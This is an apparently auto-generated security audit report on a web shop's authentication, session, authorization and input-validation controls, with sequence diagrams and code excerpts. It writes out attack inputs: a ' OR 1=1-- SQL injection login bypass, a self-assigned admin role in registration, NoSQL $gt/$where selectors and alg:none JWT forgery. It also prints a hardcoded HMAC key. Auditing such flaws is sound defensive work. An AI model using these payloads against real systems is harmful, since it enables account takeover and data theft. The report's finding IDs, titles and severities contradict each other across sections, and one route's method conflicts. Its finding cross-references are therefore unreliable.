| [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls) | 🔴 Missing | Required controls not in place (e.g.<br/>WebSocket authentication, Metrics endpoint<br/>access control). |
| [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary) | - | No controls or findings routed to this<br/>category. |

<!-- §7.1 MECHANICAL-FROZEN END -->

### 7.2 Identity and Authentication Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.2.1 TOTP / 2FA](#721-totp-2fa)
- [7.2.2 OAuth / Social Login](#722-oauth-social-login)
- [7.2.3 Password-Based Login](#723-password-based-login)
- [7.2.4 User Registration](#724-user-registration)
- [7.2.5 Password Reset](#725-password-reset)

**Implemented controls:** TOTP enrollment and verification via `otplib`, Google OAuth social login via frontend adapter, password-based login at `POST /rest/user/login`, open user registration at `POST /api/Users`, security-question password reset at `POST /rest/user/reset-password`.

**Assessment:** Every authentication flow in this codebase terminates in an `RS256` JWT issued by `lib/insecurity.ts`. The flows themselves exist - password login, TOTP, OAuth, registration, and password reset are all implemented - but each carries a structural defect: the login route uses raw SQL, TOTP secrets are stored in plaintext, the OAuth implementation skips state validation, registration accepts a mass-assigned `role` field, and the password reset compares against a pre-computable HMAC answer. Individually these are control gaps; collectively they mean that authentication as a boundary does not hold. The session token issued by each flow inherits these weaknesses and is described in [§7.3 Session and Token Controls](#73-session-and-token-controls).

<!-- §7.2 AUTH-MECHANISMS-FROZEN — deterministic inventory, pregenerator-owned. DO NOT EDIT. -->
**Authentication mechanisms (at a glance).** Every authentication mechanism detected on the application, its effective status, where it is assessed, and its linked findings. Controls are catalogued by domain, so JWT/session handling is assessed under [§7.3 Session and Token Controls](#73-session-and-token-controls) and password hashing under [§7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection).

| Mechanism | Status | Assessed in | Findings |
|----------------------|---------|-----------|------------------------------------------------|
| User registration | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation — `models/user.ts:80`<br/>🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration — `server.ts:419`<br/>🔴 [F-034](#f-034) — Unauthenticated WebSocket Channel — `registerWebsocketEvents.ts:24`<br/>🟠 [F-065](#f-065) — Uncontrolled Resource Consumption — `registerWebsocketEvents.ts:20`<br/>🔴 [F-068](#f-068) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`<br/>🟢 [F-090](#f-090) — No Actor Attribution on Socket Event Handlers — `registerWebsocketEvents.ts:34` |
| Password login | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-063](#f-063) — No Rate Limiting on Login Endpoint Enables Credential Stuffing — `server.ts:343` |
| Password reset / change | 🔴 Unsafe | [§7.2](#72-identity-and-authentication-controls) | - |
| Password storage (hashing) | 🔴 Missing | [§7.9](#79-cryptography-secrets-and-data-protection) | 🔴 [F-027](#f-027) — MD5 password hashing without salt — `models/user.ts:77`<br/>🔴 [F-032](#f-032) — Weak Password Hashing — `models/securityAnswer.ts:46`<br/>🟠 [F-036](#f-036) — MD5 password hashing enables offline credential recovery — `lib/insecurity.ts:43`<br/>🟠 [F-037](#f-037) — MD5 Password Hashing Without Salt — `lib/insecurity.ts:43` |
| JWT / bearer-token session | 🔴 Missing | [§7.3](#73-session-and-token-controls) | 🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23`<br/>🔴 [F-004](#f-004) — Insecure JWT Verification — `lib/insecurity.ts:54`<br/>🟠 [F-050](#f-050) — JWT token cookie set without HttpOnly or Secure flags — `lib/insecurity.ts:195`<br/>🟠 [F-066](#f-066) — JWT role claim elevation — `lib/insecurity.ts:54` |
| Session-token storage | 🟠 High | [§7.3](#73-session-and-token-controls) | 🟠 [F-050](#f-050) — JWT token cookie set without HttpOnly or Secure flags — `lib/insecurity.ts:195` |
| Multi-factor authentication (TOTP / 2FA) | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | 🟠 [F-058](#f-058) — TOTP secret stored in plaintext — `models/user.ts:113` |
| OAuth / OIDC federated login | 🟡 Partial | [§7.2](#72-identity-and-authentication-controls) | 🔴 [F-005](#f-005) — OAuth-Derived Predictable Password — `oauth.component.ts:30`<br/>🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation — `app.routing.ts:262` |

<!-- §7.2 AUTH-MECHANISMS-FROZEN END -->

<a id="totp-2fa"></a>
#### 7.2.1 TOTP / 2FA

**Status:** 🟡 Partial - TOTP enrollment and verification work as designed, but the TOTP secret is stored in plaintext in the `Users` table, and 2FA is optional with no enforcement for privileged accounts.

TOTP two-factor authentication is available as an opt-in second factor for user accounts. Users enroll by scanning a QR code generated from a per-user secret, then supply a 6-digit time-based code on the `POST /rest/2fa/setup` and `/rest/2fa/verify` endpoints; subsequent logins with 2FA enabled require the TOTP code after the password check.

The diagram shows the positive TOTP enrollment and login verification path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant DB
    Note over DB: Users Table (SQLite)

    User->>SPA: Navigate to 2FA setup
    SPA->>API: GET /rest/2fa/status (JWT)
    API-->>SPA: {totpEnabled: false}
    SPA->>API: POST /rest/2fa/setup (JWT, generate secret)
    API->>DB: Store plaintext TOTP secret
    DB-->>API: OK
    API-->>SPA: QR code / TOTP URI
    User->>SPA: Scan QR, enter 6-digit code
    SPA->>API: POST /rest/2fa/verify (code)
    API->>DB: Read TOTP secret
    DB-->>API: plaintext secret
    API-->>SPA: Verified - 2FA active

    alt Current state (login with 2FA enabled)
        User->>SPA: Submit password + TOTP code
        SPA->>API: POST /rest/user/login then /rest/2fa/verify
        API-->>SPA: JWT issued
    else After mitigation
        User->>SPA: Submit password + TOTP code
        SPA->>API: POST /rest/user/login then /rest/2fa/verify (encrypted secret)
        API-->>SPA: JWT issued
    end
```

**Security assessment**

TOTP is fully functional for enrolled users, but the secret protecting the second factor is stored in plaintext in `models/user.ts:113`. An attacker who reads the `Users` table - possible via SQL injection (🔴 [F-002](#f-002) — SQL Injection in login query — `routes/login.ts:34`) - immediately obtains the TOTP seed and can generate valid codes without possessing the user's device. 2FA is also entirely optional with no server-side enforcement for admin accounts, so the strongest accounts typically operate on password alone.

**Relevant findings**

- 🟠 [F-058](#f-058) — TOTP secret is stored unencrypted in `models/user.ts:113`, reducing the second factor to first-factor strength for any attacker who can read the database.

<a id="oauth-social-login"></a>
#### 7.2.2 OAuth / Social Login

**Status:** 🟡 Partial - Google OAuth is wired end-to-end but uses the implicit flow without CSRF state validation, and derives a deterministic local password from the user's email address.

Social login via Google OAuth is available at the Angular frontend. `oauth.component.ts` reads the access token from the redirect URL hash, fetches the user's profile from Google, derives a local account password from the returned email, and calls `POST /api/Users` followed by `POST /rest/user/login` to establish a local session. The flow uses Google's `id_token` to verify identity but converts it into a local credential rather than maintaining an IdP-issued session.

The diagram shows the intended OAuth social-login path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA
    Note over SPA: oauth.component.ts
    participant Google
    Note over Google: Google OAuth
    participant API
    Note over API: Local Login API
    participant JWT
    Note over JWT: JWT Issuer (lib/insecurity.ts)

    User->>SPA: Click "Login with Google"
    SPA->>Google: Redirect to OAuth authorization endpoint
    Google-->>SPA: Return access_token in URL hash
    SPA->>Google: Fetch user profile (email)
    Google-->>SPA: { email }
    SPA->>API: POST /api/Users (create local account if absent)
    API-->>SPA: 201 / 200 OK
    SPA->>API: POST /rest/user/login (email + derived password)
    API->>JWT: Sign { id, email, role } with RS256 key
    JWT-->>API: JWT
    API-->>SPA: { token, basketId }

    alt Current state
        Note over SPA,API: No OAuth state parameter - CSRF possible
    else After mitigation
        SPA->>Google: Include state nonce in authorization request
        Google-->>SPA: Return state nonce for validation
    end
```

**Security assessment**

Two independent defects weaken this flow. First, `frontend/src/app/app.routing.ts:262` uses the OAuth implicit flow and does not include or validate a `state` parameter, making the redirect vulnerable to CSRF-based token injection (🟠 [F-033](#f-033) — OAuth Implicit Flow with No State Validation — `app.routing.ts:262`). Second, `oauth.component.ts:30` derives the local account password from the user's email address using a deterministic algorithm - an attacker who knows a victim's email can compute that password and authenticate without going through Google (🔴 [F-005](#f-005) — OAuth-Derived Predictable Password — `oauth.component.ts:30`). The flow also inherits the SQL injection and weak password-hashing defects from the local login it calls.

The predictable password derivation pattern in `oauth.component.ts`:

```ts
// oauth.component.ts:30 — password derived from email
this.userService.oauthLogin(email, this.derivePasswordFromEmail(email))
```

**Relevant findings**

- 🔴 [F-005](#f-005) — Predictable local password derived from email allows account takeover without interacting with Google.
- 🟠 [F-033](#f-033) — Absent OAuth state parameter enables CSRF-based token injection on the redirect callback.

<a id="password-based-login"></a>
#### 7.2.3 Password-Based Login

**Status:** 🔴 Unsafe - the login route constructs a raw SQL string from `req.body.email`, allowing authentication bypass via SQL injection; no rate limiting prevents credential stuffing.

Detected in scope: POST `/rest/user/login`

`routes/login.ts` handles password authentication by looking up the user's email in the `Users` table and comparing the `MD5` hash of the submitted password against the stored hash. On success it calls `lib/insecurity.ts:issueAuthToken()` to mint a JWT. Both the email lookup and subsequent basket ID retrieval are performed via `models.sequelize.query()` with string interpolation rather than parameterized queries.

The diagram shows the intended positive login path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API
    Note over API: routes/login.ts
    participant DB
    Note over DB: Users Table (SQLite)
    participant JWT
    Note over JWT: lib/insecurity.ts

    User->>SPA: Enter email + password
    SPA->>API: POST /rest/user/login {email, password}
    API->>DB: SELECT * FROM Users WHERE email='${email}'
    DB-->>API: User row (if found)
    API->>API: Compare MD5(password) == stored hash
    API->>JWT: issueAuthToken({id, email, role})
    JWT-->>API: RS256-signed JWT
    API-->>SPA: {token, basketId, email}

    alt Current state
        Note over API,DB: Raw SQL - ' OR 1=1-- bypasses credential check
    else After mitigation
        API->>DB: Parameterized query with bound email
    end
```

**Security assessment**

Two independent weaknesses sit on the login path:

- `routes/login.ts:34` interpolates `req.body.email` directly into the SQL string - a `' OR 1=1--` payload returns the first row (the seeded admin account) without supplying a password.
- No rate limiting is applied at `server.ts:343`; the brute-force and credential-stuffing surface is unlimited except for the `X-Forwarded-For`-spoofable rate-limit middleware that can be bypassed.

The raw login query that accepts injectable input:

```ts
// routes/login.ts:34
models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}'...`)
```

**Relevant findings**

- 🟠 [F-001](#f-001) — SQL injection on the login email field allows authentication bypass without valid credentials.
- 🔴 [F-002](#f-002) — Raw SQL in the basket lookup on the same login route extends the injection surface.
- 🔴 [F-005](#f-005) — Derived OAuth passwords enter the same login path and are subject to the same injection weakness.
- 🔴 [F-027](#f-027) — MD5 password hashing without a salt means any credential obtained via injection is immediately reversible.
- 🟠 [F-035](#f-035) — Absence of rate limiting allows unbounded credential stuffing and brute force against the login endpoint.

<a id="user-registration"></a>
#### 7.2.4 User Registration

**Status:** 🔴 Unsafe - `POST /api/Users` accepts a `role` field in the request body, allowing any registrant to self-assign `admin` role at account creation.

Detected in scope: GET `/api/Users`

User registration is open to any internet visitor at `POST /api/Users`. The endpoint creates a new user row in the `Users` table via the Sequelize `User` model defined in `models/user.ts`. No invite code, email-domain allowlist, or CAPTCHA gates the registration path, and no server-side filter strips the `role` attribute from the inbound JSON body before the ORM writes it to the database.

The diagram shows the intended registration path and the mass-assignment defect:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API
    Note over API: POST /api/Users
    participant ORM
    Note over ORM: User Model (Sequelize)
    participant DB
    Note over DB: Users Table

    User->>SPA: Fill registration form
    SPA->>API: POST /api/Users {email, password, role: "admin"}
    API->>ORM: User.create(req.body)
    ORM->>DB: INSERT INTO Users (email, password, role) VALUES (...)
    DB-->>ORM: New user row with role=admin
    ORM-->>API: Created user
    API-->>SPA: 201 Created

    alt Current state
        Note over API,ORM: role field accepted verbatim from request body
    else After mitigation
        API->>ORM: User.create({email, password, role: "customer"})
    end
```

**Security assessment**

`models/user.ts:80` defines `role` as a column that Sequelize will accept from mass-assignment. `server.ts:419` registers `POST /api/Users` without stripping the `role` attribute before the ORM call, so a registrant who supplies `{"role":"admin"}` in the request body receives an admin account. This privilege-escalation path requires no authentication and is reachable from the public internet.

The relevant model field that accepts the `role` attribute without a setter guard:

```ts
// models/user.ts:80
role: { type: DataTypes.STRING, defaultValue: 'customer' }
```

**Relevant findings**

- 🔴 [F-025](#f-025) — Mass-assignment of the `role` field in `models/user.ts:80` allows any registrant to claim admin privileges.
- 🔴 [F-029](#f-029) — `server.ts:419` does not strip `role` from the request body before passing it to the User ORM model.
- 🔴 [F-034](#f-034) — The WebSocket channel opened at registration time has no authentication gate.
- 🟠 [F-065](#f-065) — The WebSocket event handler at `registerWebsocketEvents.ts:20` applies no connection-count limit.
- 🔴 [F-068](#f-068) — Several routes around registration (`server.ts:310`) are mounted without authentication middleware.

<a id="password-reset"></a>
#### 7.2.5 Password Reset

**Status:** 🔴 Unsafe - the reset verification compares an HMAC answer whose key is hardcoded in `lib/insecurity.ts:44`, allowing any attacker who reads the source to pre-compute valid reset tokens for any user.

Detected in scope: POST `/rest/user/reset-password`

Password reset at `POST /rest/user/reset-password` uses a challenge-response scheme: the user supplies their email, the answer to their registered security question, and the new password. `routes/resetPassword.ts` looks up the `SecurityAnswer` row, hashes the supplied answer with HMAC-SHA256 using the key from `lib/insecurity.ts:44`, and compares it against the stored hash. No email-delivered token or time-limited link is involved.

The diagram shows the intended single-step reset path:

```mermaid
sequenceDiagram
    autonumber
    actor User
    participant SPA as Angular SPA
    participant API
    Note over API: routes/resetPassword.ts
    participant DB
    Note over DB: SecurityAnswers + Users
    participant Key
    Note over Key: HMAC key (lib/insecurity.ts:44)

    User->>SPA: Submit email + security answer + new password
    SPA->>API: POST /rest/user/reset-password
    API->>DB: Lookup SecurityAnswer for email
    DB-->>API: Stored HMAC hash of answer
    API->>Key: Load hardcoded HMAC key
    Key-->>API: 'pa4qacea4VK9t9nGv7yZtwmj'
    API->>API: HMAC(answer, key) == stored hash?
    API->>DB: UPDATE Users SET password = MD5(newPassword)
    DB-->>API: OK
    API-->>SPA: Password reset successful

    alt Current state
        Note over API,Key: HMAC key is public in source - any answer pre-computable
    else After mitigation
        API->>DB: Use time-limited email token instead of HMAC answer
    end
```

**Security assessment**

Two defects break this control. First, `lib/insecurity.ts:44` hardcodes the HMAC key `'pa4qacea4VK9t9nGv7yZtwmj'` used to hash security answers (🟠 [F-047](#f-047) — Insufficient Security Logging — `routes/login.ts:18`). Anyone with repository read access can pre-compute the HMAC of any guessable answer (e.g. common pet names, birth cities) and submit it as a valid reset credential. Second, the new password after reset is stored as an unsalted `MD5` hash (`lib/insecurity.ts:43`), so a successful reset writes a hash that is immediately recoverable.

**Relevant findings**

- 🟠 [F-035](#f-035) — Security-question reset with a publicly known HMAC key allows offline pre-computation of valid answers for any target account.
- 🟠 [F-036](#f-036) — MD5 password hashing in `lib/insecurity.ts:43` means the new password written by reset is immediately recoverable from a database dump.
- 🟠 [F-047](#f-047) — Hardcoded HMAC key in `lib/insecurity.ts:44` reduces the security-answer comparison to a lookup table attack.

### 7.3 Session and Token Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.3.1 JWT signing key management](#731-jwt-signing-key-management)
- [7.3.2 JWT algorithm enforcement](#732-jwt-algorithm-enforcement)
- [7.3.3 JWT storage](#733-jwt-storage)
- [7.3.4 Token revocation](#734-token-revocation)

**Implemented controls:** `RS256` JWT issuance via `lib/insecurity.ts:issueAuthToken()`, `express-jwt 0.1.3` token validation middleware on protected routes, client-side JWT storage in `localStorage`.

**Assessment:** This application uses a single locally-signed token format (commonly called JWT) for every authenticated session, regardless of the login flow in [§7.2](#72-identity-and-authentication-controls) that established it. The sub-sections below trace one token through its lifecycle: signing on issuance, validation on every protected request, storage in the browser, manual revocation, and time-based expiry. Every stage of this lifecycle is broken: the signing key is hardcoded, the verifier accepts `alg:none`, the token is stored in XSS-accessible `localStorage`, and no revocation or expiry enforcement exists.

**Intended session-token lifecycle (positive flow):**

```mermaid
sequenceDiagram
    actor User
    participant SPA as Angular SPA
    participant API as Express API
    participant Sign as issueAuthToken()
    User->>SPA: Submit credentials
    SPA->>API: POST /rest/user/login
    API->>Sign: Sign claims with RS256 private key
    Sign-->>API: Signed JWT (role, exp)
    API-->>SPA: 200 + token
    SPA->>SPA: Persist token for session
    SPA->>API: Request + Authorization: Bearer token
    API->>API: express-jwt verifies RS256 signature
    API-->>SPA: 200 (authorized) / 401 (rejected)
```

<a id="jwt-signing-key-management"></a>
#### 7.3.1 JWT signing key management

**Status:** 🔴 Missing - the RSA private key used to sign every session token is committed as a string literal in `lib/insecurity.ts:23`, making all issued tokens forgeable by anyone with repository read access.

JWTs are signed with a 1024-bit RSA private key by `lib/insecurity.ts:issueAuthToken()`. The intended control is that only the server knows the private key material, so any token carrying a valid `RS256` signature can be trusted as server-issued. The public half is served at `/encryptionkeys/jwt.pub` and is used by `express-jwt` for verification.

**Security assessment**

The private key is not loaded from an environment variable or secret store - it is a string literal in `lib/insecurity.ts:23`. Every clone of the public repository contains the signing material, so an attacker can mint a token with `{"role":"admin"}` using only a standard `jsonwebtoken` call and the publicly readable key. The `encryptionkeys/` directory listing is also accessible unauthenticated, though the private key itself is the more direct source.

The hardcoded key opening at `lib/insecurity.ts:23` (truncated for brevity):

```ts
export const privateKey =
  '[PEM PRIVATE KEY — REDACTED]...'
```

**Relevant findings**

- 🟠 [F-001](#f-001) — Hardcoded RSA private key in `lib/insecurity.ts:23` allows offline JWT forgery for any user or role.

<a id="jwt-algorithm-enforcement"></a>
#### 7.3.2 JWT algorithm enforcement

**Status:** 🔴 Missing - `express-jwt 0.1.3` does not enforce a signing algorithm allowlist, accepting `alg:none` tokens that carry no signature at all.

JWT validation on protected routes is performed by `express-jwt 0.1.3` middleware mounted in `lib/insecurity.ts:54`. The middleware checks token presence and calls the `jsonwebtoken` verifier. The intended control is that only tokens carrying a valid `RS256` signature are accepted.

**Security assessment**

`express-jwt 0.1.3` and `jsonwebtoken 0.4.0` do not reject tokens with `"alg":"none"` in the header - a known vulnerability in these library versions. An attacker can base64-encode a payload containing `{"role":"admin"}`, set `alg:none`, and submit a token with an empty signature. `lib/insecurity.ts:54–58` verifies the token structure but the old library accepts it. This defeats the signing control independently of the key-management defect in [§7.3.1](#731-jwt-signing-key-management).

**Relevant findings**

- 🟠 [F-001](#f-001) — `alg:none` acceptance in `lib/insecurity.ts:54` lets an attacker drop the RS256 signature entirely and supply an arbitrary payload.

<a id="jwt-storage"></a>
#### 7.3.3 JWT storage

**Status:** 🔴 Missing - the JWT is stored in `localStorage`, which is readable by any JavaScript executing in the browser origin, including via XSS.

⚠ **Anti-pattern:** SPA without BFF

`frontend/src/app/last-login-ip/last-login-ip.component.ts:34` reads the JWT from `localStorage`. The Angular SPA stores the token there after each successful login and retrieves it on subsequent requests to attach it as a `Bearer` header. No `HttpOnly` cookie or Backend-for-Frontend pattern is in place to move token storage server-side.

**Security assessment**

`localStorage` is fully accessible from JavaScript in the same origin. Any stored-XSS payload executing in the browser context (e.g. via 🔴 [F-044](#f-044) — Stored XSS — `about.component.ts:119` or 🔴 [F-045](#f-045) — Stored XSS — `last-login-ip.component.ts:39`) can read `localStorage['token']` and exfiltrate the session JWT. The `lib/insecurity.ts:195` code path sets a cookie for the JWT but without `HttpOnly` or `Secure` flags, so that path also offers no XSS protection. The absence of a BFF means there is no server-side session boundary that would prevent this token theft.

**Relevant findings**

- 🟠 [F-001](#f-001) — JWT stored in `localStorage` is accessible to XSS payloads, enabling session hijacking when combined with stored-XSS findings.

<a id="token-revocation"></a>
#### 7.3.4 Token revocation

**Status:** 🔴 Missing - no server-side token blocklist or session table exists; tokens remain valid until their embedded expiry timestamp regardless of logout or password change.

The token revocation surface covers logout, forced session termination, and password-change invalidation. A correctly implemented control requires either server-side session state or a short-lived token combined with a refresh-token blocklist.

**Security assessment**

No revocation mechanism is implemented: `routes/login.ts` does not write session state to the database on login, and there is no logout endpoint that invalidates the token. A JWT obtained via the hardcoded key (🔴 [F-003](#f-003) — Hardcoded RSA private key enables arbitrary JWT forgery — `lib/insecurity.ts:23`) or `alg:none` bypass remains valid until the embedded `exp` claim expires. Password changes and password resets do not trigger revocation of outstanding tokens, so a session remains active even after a credential rotation.

**Relevant findings**

- 🟠 [F-001](#f-001) — No token revocation means a stolen or forged JWT is valid for its full lifetime regardless of any remediation action taken by the account owner.

### 7.4 Authorization Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.4.1 Role-based access control](#741-role-based-access-control)
- [7.4.2 Client-side auth guards](#742-client-side-auth-guards)
- [7.4.3 Ownership validation](#743-ownership-validation)

**Implemented controls:** Role claims embedded in JWT payload (`customer`, `deluxe`, `accounting`, `admin`); `security.isAuthorized()` and `security.isAccounting()` middleware on selected routes; Angular `AdminGuard` and `AccountingGuard` in `frontend/src/app/app.guard.ts`.

**Assessment:** Authorization is split across JWT role claims, route middleware, and Angular client-side guards. The middleware exists but is applied inconsistently - 17 sensitive routes in `server.ts` lack any authentication or authorization middleware. The Angular guards are the primary access-control layer for admin and accounting UIs, but they are enforced only client-side, meaning direct API calls bypass them entirely. Object-level ownership checks are absent from most data-access routes.

<a id="role-based-access-control"></a>
#### 7.4.1 Role-based access control

**Status:** 🟠 Weak - role claims exist in the JWT and `isAuthorized()` middleware is present, but the role field is attacker-controllable at registration and the middleware is not applied to all sensitive routes.

Role-based access control is implemented via a `role` claim in the JWT payload. `lib/insecurity.ts:144` defines four roles (`customer`, `deluxe`, `accounting`, `admin`). The `security.isAuthorized()` middleware verifies JWT presence and the `security.isAccounting()` middleware additionally checks the `role` claim. These are mounted per-route in `server.ts`.

**Security assessment**

Three independent weaknesses undermine this control:

- The `role` field is mass-assignable at `POST /api/Users` (`server.ts:419`, `models/user.ts:80`), so any registrant can self-issue an admin-role JWT seed.
- `server.ts` mounts `isAuthorized()` on only a subset of routes; 17 routes between lines 310 and 664 are registered without it (🔴 [F-068](#f-068) — Sensitive Routes Registered Without Authentication Middleware — `server.ts:310`).
- The JWT role claim can be forged by supplying an `alg:none` token or by using the hardcoded private key, bypassing the role check even when the middleware is present.

**Relevant findings**

- 🔴 [F-008](#f-008) — IDOR on basket-item routes allows any authenticated user to read or modify another user's basket items regardless of role.
- 🔴 [F-009](#f-009) — IDOR on delivery-option routes exposes order data across user boundaries.
- 🔴 [F-010](#f-010) — IDOR on order-history routes allows retrieval of another user's order PDF.

<a id="client-side-auth-guards"></a>
#### 7.4.2 Client-side auth guards

**Status:** 🔴 Missing - Angular route guards block the admin and accounting UIs in the browser, but these checks have no server-side counterpart and are bypassed by direct API calls.

Angular's router guards (`AdminGuard`, `AccountingGuard` in `frontend/src/app/app.guard.ts`) control navigation to the `/administration` and `/accounting` routes in the SPA. The guards check a client-side flag derived from the decoded JWT role claim, redirecting non-admin users to the home page before the component renders.

**Security assessment**

`frontend/src/app/app.guard.ts:52` implements the guard entirely in browser JavaScript. An attacker who calls the underlying API endpoints directly - bypassing the Angular router - encounters no server-side equivalent check. For example, `GET /api/Users` (user administration) and the order routes are reachable via HTTP without triggering the Angular guard. The guard provides a UX fence, not a security boundary.

**Relevant findings**

- 🔴 [F-008](#f-008) — Client-side-only `AdminGuard` bypass allows direct API access to admin-scoped user management endpoints.
- 🔴 [F-009](#f-009) — Accounting guard bypass exposes order data to any authenticated user who calls the route directly.
- 🔴 [F-010](#f-010) — No server-side role check on order history routes means role enforcement depends entirely on the client guard.

<a id="ownership-validation"></a><a id="ownership-validation-idor-prevention"></a>
#### 7.4.3 Ownership validation

**Status:** 🔴 Missing - resource routes in `routes/address.ts`, `routes/payment.ts`, `routes/order.ts`, `routes/wallet.ts`, and others look up records by a URL parameter without comparing the record's `userId` against the authenticated user's token.

Ownership validation is the server-side check that confirms the resource identified in a request (by ID, slug, or path) belongs to the authenticated principal. The intended control prevents a user from reading or modifying another user's addresses, payment methods, basket items, or orders by manipulating the URL parameter.

**Security assessment**

`models/relations.ts:22` defines foreign-key associations between user-owned resources and the `Users` table, but the route handlers do not enforce them at query time. Routes such as `routes/address.ts:11`, `routes/payment.ts:21`, and `routes/order.ts:142` accept a user-controlled ID, pass it directly to the ORM `findOne` or `findAll` call, and return the record without verifying `record.UserId === token.id`. The same defect appears across wallet, delivery, data-export, memory, and deluxe-upgrade routes.

**Relevant findings**

- 🔴 [F-008](#f-008) — IDOR in `routes/basketItems.ts:68` allows read/write of any basket item by supplying an arbitrary item ID.
- 🔴 [F-009](#f-009) — IDOR in `routes/delivery.ts:34` and `routes/orderHistory.ts:36` exposes delivery and order data across user boundaries.
- 🔴 [F-010](#f-010) — Absent ownership check in `models/relations.ts:22` means the ORM layer does not enforce user-scoped queries by default.

### 7.5 Query Construction and Data Access Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.5.1 SQL parameterization](#751-sql-parameterization)
- [7.5.2 NoSQL query sanitization](#752-nosql-query-sanitization)

**Implemented controls:** Sequelize ORM used for most data models; MarsDB for product reviews; `sanitize-html 1.4.2` applied in isolated locations for HTML content.

**Assessment:** Sequelize ORM is present and handles most data access safely, but the two highest-traffic read paths - user login and product search - bypass the ORM and call `models.sequelize.query()` with string interpolation. The MarsDB product-review update path passes a request body field directly as a NoSQL selector without sanitization. These two raw-query escape hatches provide independent injection vectors.

<a id="sql-parameterization"></a>
#### 7.5.1 SQL parameterization

**Status:** 🟡 Partial - Sequelize ORM protects most queries, but `routes/login.ts` and `routes/search.ts` bypass it with raw string-interpolated SQL.

Sequelize backs most relational data access in this application. Typical model queries (`User.findOne()`, `Product.findAll()`) use parameterized placeholders generated by the ORM. The login and search routes call `models.sequelize.query()` directly, placing user-supplied values into the query string before the call.

**Security assessment**

`routes/login.ts:34` interpolates `req.body.email` into a `SELECT` statement; `routes/search.ts:23` does the same with the `q` query parameter in a `LIKE` clause. Both bypass Sequelize parameterization. The login query is the more dangerous because a successful injection returns the first user row (the seeded admin), bypassing the password check entirely.

The raw login query that interpolates the email parameter:

```ts
// routes/login.ts:34
models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}'...`)
```

**Relevant findings**

- 🔴 [F-002](#f-002) — SQL injection at `routes/login.ts:34` via `req.body.email` allows authentication bypass.
- 🔴 [F-006](#f-006) — SQL injection at `routes/search.ts:23` via the `q` parameter allows data extraction from the `Products` table.

<a id="nosql-query-sanitization"></a>
#### 7.5.2 NoSQL query sanitization

**Status:** 🔴 Missing - the MarsDB product-review update route passes `req.body` directly as a selector object without stripping MongoDB-style operator keys.

MarsDB (a MongoDB-compatible embedded store) is used for product reviews. `routes/` handlers issue `find` and `update` calls against the MarsDB collection. The `PUT /rest/products/:id/reviews` route accepts a JSON body and uses fields from `req.body` as the query selector.

**Security assessment**

No sanitization removes MongoDB-style operator keys (e.g. `$gt`, `$where`) from the request body before the MarsDB query. An attacker can supply `{"score": {"$gt": 0}}` in the selector portion to match records beyond their ownership boundary, or use `$where` with a JavaScript predicate for server-side evaluation. The defect is structurally identical to classic NoSQL injection and cannot be closed by input-length checks alone; the selector must be reconstructed from validated scalar fields.

**Relevant findings**

- 🔴 [F-002](#f-002) — NoSQL injection surface in the product-review update route allows cross-user record manipulation.
- 🔴 [F-006](#f-006) — MarsDB selector accepts operator objects, enabling query-structure tampering on the review collection.

### 7.6 Input Boundary Validation Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.6.1 Validation Approach](#761-validation-approach)
- [7.6.2 Global input validation middleware](#762-global-input-validation-middleware)

**Implemented controls:** `body-parser` for JSON/URL-encoded body parsing; `multer 1.4.5-lts.1` for multipart upload size limiting; `sanitize-filename` for upload filename sanitization; per-route `express-validator` usage in isolated endpoints.

**Assessment:** Input validation is applied inconsistently across routes. There is no global schema-validation middleware; each route is responsible for its own validation, and most skip it. The highest-risk sinks (`eval`, raw SQL, `vm.runInContext`, `libxmljs2`, `yaml.load`) receive no boundary-level type or length validation before the dangerous operation is reached.

<a id="validation-approach"></a>
#### 7.6.1 Validation Approach

**Status:** 🟡 Partial - per-route validation exists at a few endpoints (e.g. `express-validator` on feedback routes), but the majority of routes accept arbitrary `req.body` content without schema enforcement.

Input boundary validation is the server-side gate that rejects values outside the expected type, length, format, or allowlist before they reach a processing sink. Most Express routes parse the request body via `body-parser` and pass `req.body` fields directly to downstream handlers.

**Security assessment**

`express-validator` appears in selected routes but is absent from the login, search, B2B order, and file-upload paths. `routes/userProfile.ts:62` passes `req.body.username` directly to `eval()` with no type or length check. `routes/b2bOrder.ts:23` passes `req.body.orderLinesData` to `vm.runInContext('safeEval(orderLinesData)')` without validation. These represent the highest-severity gaps: the dangerous sink is reached before any boundary check fires.

**Relevant findings**

- 🟠 [F-062](#f-062) — No schema validation on `req.body` fields reaching `eval()` in `routes/userProfile.ts:62`.
- 🟠 [F-063](#f-063) — No rate limiting or input validation on `POST /rest/user/login` enables credential stuffing.
- 🟠 [F-064](#f-064) — No input validation on the B2B order body before `vm.runInContext()` at `routes/b2bOrder.ts:23`.

<a id="global-input-validation-middleware"></a>
#### 7.6.2 Global input validation middleware

**Status:** 🔴 Missing - no application-wide middleware schema validates or sanitizes `req.body`, `req.query`, or `req.params` before route handlers execute.

